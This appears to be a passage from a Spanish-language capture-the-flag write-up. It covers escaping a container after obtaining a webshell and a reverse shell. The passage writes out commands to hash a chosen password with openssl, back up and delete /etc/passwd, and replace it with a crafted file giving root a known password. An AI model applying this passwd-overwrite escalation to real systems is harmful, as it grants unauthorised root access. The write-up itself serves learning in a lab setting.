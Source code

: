 > Tenemos WebShell

Nos enviamos una reverse shell. Pero nos encontramos en un contenedor.


# Container Escape (172.20.0.10)
## OS 
```bash
ls -l
```

> El archivo "cmd.php" lo crea root.

Vamos a sobreescribir el archivo "passwd", con una contraseña para root.

```bash
openssl passwd
hola
hola
```

Tenemos que crear el archivo passwd malicioso pero antes tenemos que guardar el nuestro jeje.
```bash
cp /etc/passwd /etc/passwd.original
rm 
/etc/passwd
```

```bash
nano /etc/passwd

root:PVXo7amSxXehk:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38: Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,, :/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
kaneki:x:1000:1000::/home/kaneki:/bin/bash
Eto:x:1001:1001::/home/Eto:/bin/bash
noro:x:1002:1002::/home/noro:/bin/bash
```
